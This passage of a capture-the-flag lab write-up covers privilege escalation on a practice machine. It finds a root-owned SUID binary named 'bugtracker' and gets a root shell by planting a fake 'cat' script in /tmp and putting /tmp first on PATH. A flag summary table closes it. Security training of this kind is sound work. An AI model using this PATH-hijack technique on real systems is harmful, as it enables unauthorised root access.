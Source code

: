 
### Escalation Vector Identification

**Group Membership Analysis:**
```bash
# Check robert's group membership
id
# uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)

# Find files owned by bugtracker group
find / -group bugtracker 2>/dev/null
# /usr/bin/bugtracker
```

**SUID Binary Analysis:**
```bash
# Check permissions and file type
ls -la /usr/bin/bugtracker
file /usr/bin/bugtracker

# Results show:
# -rwsr-xr-- 1 root bugtracker 8792 Jan 25 2020 /usr/bin/bugtracker
# SUID bit set, owned by root
```

### Privilege Escalation Execution

**PATH Manipulation Exploit:**
```bash
# Create malicious cat binary in /tmp
cd /tmp
echo "/bin/sh" > cat
chmod +x cat

# Modify PATH to prioritize /tmp directory
export PATH=/tmp:$PATH
# Verify PATH modification
echo $PATH
# /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Execute bugtracker to trigger privilege escalation
/usr/bin/bugtracker

# Provide any input when prompted
# Result: Root shell obtained
```

---

## Flag Summary

| Flag ID | Associated Task | Capture Method | Difficulty |
|---------|----------------|----------------|------------|
| User Flag | Lateral Movement | Database credential reuse | 2/5 |
| Root Flag | Privilege Escalation | SUID PATH manipulation | 3/5 |

